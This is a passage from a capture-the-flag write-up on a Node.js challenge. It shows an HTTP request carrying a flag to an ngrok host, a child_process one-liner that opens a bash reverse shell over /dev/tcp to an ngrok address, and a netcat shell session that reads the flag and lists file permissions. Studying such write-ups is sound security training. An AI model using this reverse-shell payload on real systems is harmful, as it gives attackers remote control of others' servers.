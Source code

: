 ```bash
Host: 5.tcp.eu.ngrok.io:14819
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 52
Content-Type: application/x-www-form-urlencoded

EGCERT{3e20ba_4lw4y5_ch3ck_f0r_vuln3r4bl3_p4ck4g35}
```

### Beyond flag

The other way which is getting the reverse shell is easier i got it but before the ctf using the command
```js
---js
((require("child_process")).execSync('bash -c "bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/17552 0>&1"'))
---RCE
```
Then on the listening port i got a reverse shell and did that
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44750
nodez@8372928b8e00:/usr/src/app$ /flag
/flag
Congratulations, this is the flag location: /tmp/dc279a58e03ed93d03b1ed6b4c3c5330/flag_JQRCMB.txt
nodez@8372928b8e00:/usr/src/app$ cat /tmp/dc279a58e03ed93d03b1ed6b4c3c5330/flag_JQRCMB.txt
cat /tmp/dc279a58e03ed93d03b1ed6b4c3c5330/flag_JQRCMB.txt
EGCERT{3c5330_4lw4y5_ch3ck_f0r_vuln3r4bl3_p4ck4g35}
```

I also checked the permissions of `/flag` and the real flag to verify the reason why i couldn't read /flag like the real flag or /etc/passwd and found this
```bash
nodez@8372928b8e00:/usr/src/app$ ls -la /
ls -la /
total 112
drwxr-xr-x   1 root root  4096 Jun 26 07:08 .
drwxr-xr-x   1 root root  4096 Jun 26 07:08 ..
-rwxr-xr-x   1 root root     0 Jun 26 07:08 .dockerenv
lrwxrwxrwx   1 root root     7 Jun 12 00:00 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Jan 28 21:20 boot
drwxr-xr-x   5 root root   360 Jun 26 07:08 dev
drwxr-xr-x   1 root root  4096 Jun 26 07:08 etc
---x--x--x   1 root root 17136 Jun 23 11:51 flag
drwxr-xr-x   1 root root  4096 Jun 22 01:20 home
lrwxrwxrwx   1 root root     7 Jun 12 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Jun 12 00:00 lib64 -> usr/lib64
drwxr-xr-x   2 root root  4096 Jun 12 00:00 media
drwxr-xr-x   2 root root  4096 Jun 12 00:00 mnt
drwxr-xr-x   1 root root  4096 Jun 21 01:03 opt
dr-xr-xr-x 214 root root     0 Jun 26 07:08 proc
drwx------   1 root root  4096 Jun 23 11:51 root
drwxr-xr-x   1 root root  4096 Jun 13 03:40 run
lrwxrwxrwx   1 root root     8 Jun 12 00:00 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Jun 12 00:00 srv
dr-xr-xr-x  13 root root     0 Jun 26 07:08 sys
drwxrwx-wt   1 root root 20480 Jun 27 18:29 tmp
drwxr-xr-x   1 root root  4096 Jun 12 00:00 usr
drwxr-xr-x   1 root root  4096 Jun 12 00:00 var
nodez@8372928b8e00:/tmp$ ls -la /tmp/51eb18c330994e86115669c71e960ecd                
ls -la /tmp/51eb18c330994e86115669c71e960ecd
total 28
drwx------ 2 nodez nodez  4096 Jun 27 18:30 .
```